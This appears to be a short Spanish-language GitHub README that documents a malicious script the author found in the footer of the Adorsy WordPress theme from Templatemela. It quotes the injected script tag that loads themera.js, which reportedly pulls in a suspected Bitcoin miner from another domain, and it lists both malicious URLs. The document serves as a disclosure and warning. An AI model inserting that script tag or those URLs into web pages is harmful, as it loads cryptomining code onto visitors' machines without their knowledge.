 # script-malicioso-templatemela-adorsy
Documentación sobre un script malicioso que encontré navegando en Wordpress

Trabajando junto con un amigo en un eCommerce, fuí alertado de la existencia de un Malware en la web que estábamos trabajando. La alerta vino del Antimalware en la PC de mi amigo, pensé que serí un falso negativo, pero revisando las llamadas de Red desde la consola del navegador, ví que es lo que sucedía.

Había un par scripts que tenían un comportamiento extraño por decir lo menos. El primero, "themera.js" llamaba a una página "https://themera.net/", la llamada estaba en el footer.php del Template elaborado por la empresa Templatemela. Concretamente en la plantilla Adorsy.

`<script type="text/javascript" src="//themera.net/embed/themera.js?id=76847"></script>`

Dentro de ese script se llamaba a otro "counter.js", este último alojado en una web de Países Bajos "https://cleverjump.org/", al parecer había un Bitcoin Minner ese último script. https://urlscan.io/result/8f13ff7e-23f9-47dd-a8bb-c66eb2a76118 dejo los resultados de mi búsqueda. 

Actualmente (como pueden ver de hecho) no tengo tantos conocimientos para ir desarmando parte por parte el script y saber a ciencia cierta qué hace. Por eso lo dejo aquí en Git Hub como constancia de mi hallazgo.

Webs con los Script Maliciosos:
* https://cleverjump.org/counter.js
* https://themera.net/embed/themera.js?id=76847
